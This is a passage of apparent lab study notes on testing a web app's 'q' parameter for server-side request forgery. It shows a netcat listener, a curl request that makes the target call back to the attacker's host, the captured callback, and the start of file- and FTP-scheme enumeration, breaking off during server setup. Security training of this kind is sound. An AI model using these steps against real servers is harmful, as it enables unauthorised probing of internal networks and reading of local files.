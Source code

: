 ```
Date: Mon, 18 Oct 2021 10:20:27 GMT

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 153
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Mon, 18 Oct 2021 10:20:27 GMT

<html>
<!-- ubuntu-web.lalaguna.local & internal.app.local load resources via q parameter -->
<body>
<h1>Bad App</h1>
<a>Hello World!</a>
</body>
</html>
```
The spawned target is `ubunut-web.lalaguna.local`, and `internal.app.local` is an application on the internal network (inaccessible from our current position)
### Test to see if `q` parameter is vulnerable to SSRF
#### Start a netcat listener on attack host
```Shell
nc -lnvp 8080
```
#### Issue a cURL request to the target web application with `http://<your IP>:8080` instead of `index.html`
```Shell
curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"
```
Output in netcat listener:
```
listening on [any] 8080 ...
connect to [10.10.15.176] from (UNKNOWN) [10.129.201.238] 49818
GET / HTTP/1.1
Accept-Encoding: identity
Host: 10.10.15.176:8080
User-Agent: Python-urllib/3.8
Connection: close
```
This shows the targetr is vulnerable to SSRF
### Enumerating the server using SSRF
Reading the [Python-urllib documentation](https://docs.python.org/3.8/library/urllib.html), we can see it supports `file`,` http `and` ftp` schemas. So, apart from issuing HTTP requests to other services on behalf of the target application, we can also read local files via the `file` schema and remote files using `ftp`.
#### 1. Create a file called `index.html`
```
<html>
</body>
<a>SSRF</a>
<body>
<html>
```
#### 2. Inside the directory where `index.html` is located, start an HTTP server using the following command
```Shell
python3 -m http.server 9090
```
#### 3. Inside the directory where `index.html` is located, start an FTP server using the following command
```Shell
sudo pip3 install twisted
```